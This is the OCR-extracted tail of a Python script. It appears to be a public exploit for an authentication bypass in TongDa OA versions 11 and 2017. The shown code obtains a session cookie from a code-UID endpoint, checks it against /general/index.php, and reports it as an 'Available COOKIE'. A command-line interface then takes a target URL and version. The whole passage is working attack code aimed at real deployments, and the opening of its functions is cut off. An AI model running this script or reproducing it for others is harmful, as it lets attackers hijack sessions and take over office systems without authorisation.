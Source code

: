 ```python
            res = requests.get(getCodeUidUrl)
            tmp_cookie = res.headers['Set-Cookie']
            headers["User-Agent"] = choice(USER_AGENTS)
            headers["Cookie"] = tmp_cookie
            check_available = requests.get(url + '/general/index.php',headers=headers)
            if '用户未登录' not in check_available.text:
                if '重新登录' not in check_available.text:
                    print('[+]Get Available COOKIE:' + tmp_cookie)
            else:
                print('[-]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
        else:
            print('[-]Something Wrong With '+url  + ' Maybe Not Vulnerable ?')
    except:
        print('[-]Something Wrong With '+url)


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "-v",
        "--tdoaversion",
        type=int,
        choices=[11, 2017],
        help="Target TongDa OA Version. e.g: -v 11、-v 2017")
    parser.add_argument(
        "-url",
        "--targeturl",
        type=str,
        help="Target URL. e.g: -url 192.168.2.1、-url http://192.168.2.1"
    )
    args = parser.parse_args()
    url = args.targeturl
    if 'http://' not in url:
        url = 'http://' + url
    if args.tdoaversion == 11:
        getV11Session(url)
    elif args.tdoaversion == 2017:
        get2017Session(url)
    else:
        parser.print_help()
```